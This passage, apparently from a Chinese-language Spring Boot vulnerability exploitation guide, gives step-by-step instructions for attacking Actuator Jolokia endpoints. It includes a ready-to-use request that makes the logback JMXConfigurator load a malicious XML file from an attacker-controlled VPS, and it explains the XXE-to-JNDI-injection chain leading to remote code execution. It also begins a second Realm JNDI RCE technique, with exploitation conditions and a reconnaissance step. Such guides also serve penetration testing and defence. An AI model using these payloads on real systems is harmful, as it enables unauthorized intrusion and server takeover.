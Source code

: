 ##### 步骤六：从外部 URL 地址加载日志配置文件

> ⚠️ 如果目标成功请求了example.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：

```
/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/example.xml
```



#### 漏洞原理：

1. 直接访问可触发漏洞的 URL，相当于通过 jolokia 调用 `ch.qos.logback.classic.jmx.JMXConfigurator` 类的 `reloadByURL` 方法
2. 目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意  JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞



#### 漏洞分析：

​	[spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)



#### 漏洞环境：

[repository/springboot-jolokia-logback-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-jolokia-logback-rce)

正常访问：

```
http://127.0.0.1:9094/env
```



### 0x05：jolokia Realm JNDI RCE

#### 利用条件：

- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
- 目标可以请求攻击者的服务器（请求可出外网）
- JNDI 注入受目标 JDK 版本影响，jdk < 6u141/7u131/8u121（RMI 方式）



#### 利用方法：

##### 步骤一：查看已存在的 MBeans

访问 `/jolokia/list` 接口，查看是否存在 `type=MBeanFactory` 和 `createJNDIRealm` 关键词。


